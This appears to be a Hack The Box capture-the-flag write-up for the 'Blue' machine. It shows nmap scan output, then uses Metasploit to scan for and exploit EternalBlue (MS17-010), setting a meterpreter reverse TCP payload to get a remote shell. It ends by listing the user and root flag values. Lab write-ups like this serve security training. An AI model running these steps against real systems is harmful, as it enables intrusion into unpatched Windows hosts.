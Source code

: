 
# Blue <!-- omit in toc -->


# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
- [Expolit](#expolit)
- [Post Exploit](#post-exploit)
- [Flags](#flags)
    - [**User Flag**](#user-flag)
    - [**Root Flag**](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Tue Mar  3 16:46:47 2020 as: nmap -sC -sV -oA ./Documents/HackTheBox/Blue/Scans/nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.099s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8s, deviation: 1s, median: 7s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-03T16:48:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-03T16:47:59
|_  start_date: 2020-03-03T16:42:50

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  3 16:48:00 2020 -- 1 IP address (1 host up) scanned in 73.15 seconds
```

**Notice:**

 1. The script tells us this is a windows 7 service pack 1 machine.
 2. The computer name is: haris-PC. might be a user called haris.


# Expolit
This box has many ports open. The results of the nmap script tells us that we should look for something that has to do with smb on windows 7 service pack 1. 

For more hints we can look at the web page on hackthebox ([Blue](https://www.hackthebox.eu/home/machines/profile/51)). This is a simple box based on a CVE.

Searching through exploit-DB shows alot of options, the most promessing exploits refer to EternalBlue (MS17-010) exploit. Searching google yields this [result](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010) - Metasploit has a scanner for this exact exploit.

So, lets open msfconsole and type:

```
use auxiliary/scanner/smb/smb_ms17_010
```

Setting RHOSTS to the box ip 10.10.10.40 we get:

![Users](./Pictures/Scanner_results.png)

The box is vulnerable to eternalblue exploit.

So to use it:

```
use exploit/windows/smb/ms17_010_eternalblue
````
Set RHOSTS to the box ip. This exploit grants a root shell so no need for meterpreter here, but just for the practice lets use it. Set the payload as meterpreter where LHOST is our ip.

```
set payload windows/x64/meterpreter/reverse_tcp
```

We get a meterpreter session on the box.

# Post Exploit

Navigate to `C:\Users` to see which users are on the box. Just like we saw on the nmap results, there is a user called haris and Administrator.

![Users](./Pictures/Users.png)

The flags are on the Desktop of each user.

# Flags

### **User Flag**
in the desktoip of user haris: **4c546aea7dbee75cbd71de245c8deea9**

### **Root Flag**
in the desktop of the Administrator: **ff548eb71e920ff6c08843ce9df4e717**
